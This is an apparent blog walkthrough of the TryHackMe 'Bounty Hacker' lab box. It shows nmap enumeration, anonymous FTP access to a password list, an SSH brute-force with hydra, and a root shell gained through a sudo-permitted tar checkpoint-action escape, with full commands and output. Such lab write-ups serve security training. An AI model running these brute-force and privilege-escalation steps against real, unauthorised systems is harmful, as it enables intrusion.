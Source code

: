 ```yaml
---
title: TryHackMe - Bounty Hacker Walkthrough
date: 2020-08-05
asciinema: true
---
```


{{< figure src="/media/bounty-card.png"  title="Credits to Sevuhl" >}}

This challenge is a straightforward Linux box involving simple enumeration, credential bruteforcing and abusing user `sudo` privileges on an unsafe binary.

*Visit [TryHackMe](https://tryhackme.com) for more challenges*

---
# Initial reconnaissance

## Enumerating running services

Command run: `$ sudo nmap -sS -Pn 10.10.211.186 -oN nmap-syn.txt`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-04 22:51 EDT
Nmap scan report for 10.10.211.186
Host is up (0.39s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```
We can see three open ports `21`, `22` and `80`. Let's perform full nmap scans of these ports:

Command run: `$ nmap -A -p21,22,80 10.10.211.186 -oN nmap-full.txt`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.4.10.122
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.52 seconds
```

## A quick look at the web service

{{< figure src="/media/bounty-webservice.png" >}}

## Enumerating FTP service

The FTP service allows anonymous logins, let's see what we can find there.

Command run: `$ ftp 10.10.211.186 21`

```
kali@kali:/mnt/hgfs/TryHackMe/bounty-hunter$ ftp 10.10.211.186 21
Connected to 10.10.211.186.
220 (vsFTPd 3.0.3)
Name (10.10.211.186:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp>
```

We download the two text files to our host with the `get` command and read their content. The `task.txt` file contains the answer to Task#3

```
kali@kali:/mnt/hgfs/TryHackMe/bounty-hunter$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

The `locks.txt` contains a set of what could be credentials for another service (hosted on web server, or perhaps SSH passwords).

```
kali@kali:/mnt/hgfs/TryHackMe/bounty-hunter$ cat locks.txt | head -n5
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
```

Task 4 hints us that the password is indeed for some SSH credentials. We just need a list of usernames to match. Based on the few information we can get out of the web service we can draft the following `potential-users.txt` list:

```
lin
vicious
ed
spike
faye
ein
edward
redeye
```

# Brute-forcing SSH

There are a few ways to go abount bruteforcing access to `ssh`, one commonly used tool to perform such tasks is `hydra` (https://github.com/vanhauser-thc/thc-hydra)

```
kali@kali:/mnt/hgfs/TryHackMe/bounty-hunter$ hydra -L potential-users.txt -P locks.txt ssh://10.10.21
1.186
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-04 23:30:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 208 login tries (l:8/p:26), ~13 tries per task
[DATA] attacking ssh://10.10.211.186:22/
[22][ssh] host: 10.10.211.186   login: lin   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-04 23:31:51
```

We found a valid SSH credential `lin:REDACTED`, this will answer Task 4.

# Accessing the machine

Command run: `$ ssh lin@10.10.211.186`

```
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls -la
total 12
drwxr-xr-x  2 lin lin 4096 Jun  7 17:06 .
drwxr-xr-x 19 lin lin 4096 Jun  7 22:17 ..
-rw-rw-r--  1 lin lin   21 Jun  7 17:06 user.txt
```

## Escalating to root

One of the first things to check when looking for a privilege escalation vector on Linux is to verify what commands can the current user run with elevated privileges. This is done with the following command: `$ sudo -l`. Note that you will require the current user's `sudo` password to be able to run the command.

```
lin@bountyhacker:/home$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

> NAME
     tar — The GNU version of the tar archiving utility

If `tar` runs in privileged context, it may be used to access the file system, escalate or maintain access with elevated privileges if enabled on sudo.

`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

```
lin@bountyhacker:/home$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# ls -la /root   
total 40
drwx------  5 root root 4096 Jun  7 21:31 .
drwxr-xr-x 24 root root 4096 Jun  6 06:36 ..
-rw-------  1 root root 2694 Jun  7 22:25 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Feb 26  2019 .cache
drwxr-xr-x  2 root root 4096 Jun  7 15:00 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   19 Jun  7 17:16 root.txt
-rw-r--r--  1 root root   66 Jun  7 21:13 .selected_editor
drwx------  2 root root 4096 Jun  7 19:29 .ssh
```

---

Hope you enjoyed the write-up, thank you for reading 👏

